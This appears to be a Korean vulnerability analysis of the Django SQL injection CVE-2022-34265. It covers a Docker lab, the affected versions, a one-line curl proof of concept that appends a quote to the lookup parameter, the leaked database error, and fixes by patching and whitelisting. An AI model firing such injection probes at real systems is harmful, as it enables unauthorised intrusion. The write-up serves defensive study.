

# [CVE-2022-34265] Django SQL Injection 취약점 분석

## 1. 취약점 요약
- **CVE 번호**: CVE-2022-34265
- **내용**: Django의 `Extract()` 및 `Trunc()` 데이터베이스 함수에서 `lookup_name` 인자에 대한 검증이 미흡하여 발생하는 SQL 인젝션 취약점입니다.

## 2. 환경 구성
- 외부 이미지 의존 없이 단일 `docker-compose.yml`과 `Dockerfile`로 직접 환경을 빌드합니다.
- **환경**: `python:3.9-slim`, `Django==4.0.5`, `SQLite3`
- **실행 명령어**: `docker compose up -d --build`

## 3. 취약 조건
- Django 버전 3.2.14 미만, 또는 4.0.6 미만
- 사용자 입력값이 `Extract`나 `Trunc` 함수의 `lookup_name` 인자로 필터링 없이 전달될 때 발생합니다.

## 4. 재현 절차
1. 로컬 환경에서 `docker compose up -d --build`를 실행해 웹 서버를 구동합니다.
2. `http://localhost:8002/?lookup=year`로 접속해 정상 응답을 확인합니다.
3. 파라미터에 악의적인 따옴표(`'`)를 삽입하여 취약점을 트리거합니다.

## 5. PoC 코드
```text
curl -v "http://localhost:8002/?lookup=year'"
```

## 6. 실행 결과
- 삽입한 따옴표로 인해 쿼리 문법이 깨지며 아래와 같은 데이터베이스 에러가 노출됩니다. 이는 공격자의 입력이 SQL 구문으로 해석되었음을 증명합니다.
- 노출된 에러: ``Error: unrecognized token: "'year'', "auth_user"."date_joined", NULL, NULL) AS "extracted" FROM "auth_user""``



## 7. 대응 방안
1. **버전 업데이트**: Django를 안전한 버전(3.2.14+, 4.0.6+, 4.1+)으로 패치합니다.
2. **입력값 검증(보안 코딩)**: 사용자 입력을 DB 함수의 파라미터로 직접 넘기지 않고, 미리 정의된 화이트리스트(예: ``['year', 'month', 'day']``)에 포함되는지 확인한 후 사용해야 합니다